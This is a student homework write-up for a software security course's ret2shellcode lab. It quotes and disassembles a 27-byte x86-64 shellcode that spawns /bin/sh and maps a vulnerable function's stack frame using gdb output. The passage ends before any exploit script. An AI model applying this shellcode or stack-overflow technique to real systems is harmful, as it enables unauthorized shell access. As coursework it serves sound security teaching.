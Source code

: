 <center><font size=7>《软件安全》HW02</font></center><br /><div align='right'><font size=4><b>陈希尧</b> 3180103012</font>

[TOC]

# Lab

## 01_ret2shellcode

Use shellcode from [Linux/x86-64 - Execute /bin/sh - 27 bytes (shell-storm.org)](http://shell-storm.org/shellcode/files/shellcode-806.php), which can be disassembled as follows:

```assembly
xor eax, eax
mov rbx, 0xFF978CD091969DD1
neg rbx
push rbx
;mov rdi, rsp
push rsp
pop rdi
cdq
push rdx
push rdi
;mov rsi, rsp
push rsp
pop rsi
mov al, 0x3b
syscall
```

Re-compile the .c file with `-g` flag and use gdb to debug and get the essential information:

```bash
# in `main`
pwndbg> p &id
$2 = (long long *) 0x7fffffffe3f8

# in `hear`
pwndbg> i r rbp
rbp            0x7fffffffe3e0   0x7fffffffe3e0
pwndbg> p &str[0]
$3 = 0x7fffffffe2e0 "P\006@"
pwndbg> p &str[255]
$4 = 0x7fffffffe3df ""
```

Thus a scratch of the stack structure can be drawn as follows:

```bash
High Addr
            hear
     /                 \
    +-------------------+
    |  RetAddr of hear  |  (8 bytes
    +-------------------+
    |  Prev Frame Addr  |  (8 bytes
    +-------------------+  0x7fffffffe3e0 = rbp
    |                   |     ↑
    |   buffer[0:256]   |    256
    |                   |     ↓
    +-------------------+  0x7fffffffe2e0
     \                 /
Low Addr
```
